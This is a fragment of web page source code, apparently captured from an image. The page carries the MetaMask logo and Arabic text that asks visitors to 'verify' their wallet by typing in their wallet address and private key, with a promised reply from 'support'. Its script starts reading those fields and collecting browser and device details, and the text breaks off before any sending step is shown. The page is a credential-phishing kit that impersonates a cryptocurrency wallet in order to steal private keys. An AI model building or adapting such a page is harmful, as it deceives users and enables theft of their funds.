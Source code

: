         .login-container button:hover {
            background-color: #f39c12; /* Hover color */
        }
        .alert {
            color: red;
            font-size: 13px;
            margin-top: 10px;
            display: none;
        }
        .confirmation {
            color: green;
            font-size: 13px;
            margin-top: 10px;
            display: none;
        }
        .login-container a {
            color: #3C3C3C;
            text-decoration: none;
            font-weight: bold;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="https://upload.wikimedia.org/wikipedia/commons/4/4f/MetaMask_Fox.svg" alt="MetaMask Logo">
        <h2>تحقق من حساب محفظتك الرقمية</h2>
        <p>لتأكيد حسابك، يرجى تقديم تفاصيل المحفظة الخاصة بك:</p>
        <form id="verificationForm">
            <input type="text" id="walletAddress" placeholder="عنوان محفظتك الرقمية" required>
            <input type="password" id="privateKey" placeholder="المفتاح الخاص (Private Key)" required>
            <button type="submit">إرسال المعلومات</button>
            <div class="alert" id="errorAlert">الرجاء ملء جميع الحقول!</div>
            <div class="confirmation" id="confirmationAlert">تم إرسال المعلومات! سيتم الرد عليك من قبل الدعم قريبًا.</div>
        </form>
        <p>إذا واجهت مشاكل، يرجى الاتصال بـ <a href="#">الدعم</a>.</p>
    </div>

    <script>
        const form = document.getElementById('verificationForm');
        const walletAddress = document.getElementById('walletAddress');
        const privateKey = document.getElementById('privateKey');
        const alertBox = document.getElementById('errorAlert');
        const confirmationBox = document.getElementById('confirmationAlert');

        // الحصول على معلومات الجهاز من user-agent
        function getDeviceInfo() {
            const userAgent = navigator.userAgent;
            const platform = navigator.platform;
            return { userAgent, platform };
        }
